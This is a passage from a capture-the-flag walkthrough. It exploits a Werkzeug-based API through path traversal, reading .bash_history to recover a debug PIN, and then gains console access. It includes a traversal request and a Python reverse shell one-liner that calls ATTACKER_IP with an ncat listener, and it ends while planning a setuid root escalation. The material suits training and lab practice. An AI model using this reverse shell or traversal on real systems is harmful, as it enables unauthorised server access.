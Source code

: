 ```
`http://<IP>:5000/api/v1/resources/books?FOUND_PARAMETER=../../../../../../../../../../../home/sid/.bash_history`

and sure enough we get:

```
cd /home/sid whoami export WERKZEUG_DEBUG_PIN=<HIDDEN_PIN_CODE> echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit
```

When i saw that command i immidiately remembered that the API is running on `Werkzeug` which has a console, which in this case will be on `http://<IP>:5000/console`

so we go visit that URL, and we get a prompt to enter a PIN code, we enter the PIN code we found on the .bash_history file

**And we are in!**

We can now execute any python code inside the console and it will be executed on the server.

We can look online for a python reverse tcp shell:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

i chose this payload:
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

but before we execute the command, lets start an `ncat` listening session with the command:

`ncat -lvp 5555`

and now we can send that command above to the server by pasting it in the Werkzeug console.

If everything went smooth, we will get a reverse connection with a shell in our ncat sessionn and we will be able to do anything that the user sid can do.

first, lets execute an `ls-la`:
```
-r--r--r-- 1 sid  sid   4635 Oct 20  2020 api.py
-r-xr-xr-x 1 sid  sid    160 Oct 14  2020 api-up.sh
-r--r----- 1 sid  sid    116 Jul  5 18:08 .bash_history
-rw-r--r-- 1 sid  sid    220 Oct 20  2020 .bash_logout
-rw-r--r-- 1 sid  sid   3771 Oct 20  2020 .bashrc
-rw-rw-r-- 1 sid  sid  16384 Oct 19  2020 books.db
drwx------ 2 sid  sid   4096 Oct 20  2020 .cache
drwx------ 3 sid  sid   4096 Oct 20  2020 .gnupg
drwxrwxr-x 3 sid  sid   4096 Oct 20  2020 .local
-rw-r--r-- 1 sid  sid    807 Oct 20  2020 .profile
-rwsrwsr-x 1 root sid   8488 Oct 20  2020 try-harder
-r--r----- 1 sid  sid     33 Oct 15  2020 user.txt
```

**Lets 'cat' user.txt and get our first flag.**

After that, we notice the file `try-harder` which by the looks of it (it has the executable attribute) is an executable binary file with `setuid` and its owned by `root`.

so this might be the proper way to elevate our privileges to root.

```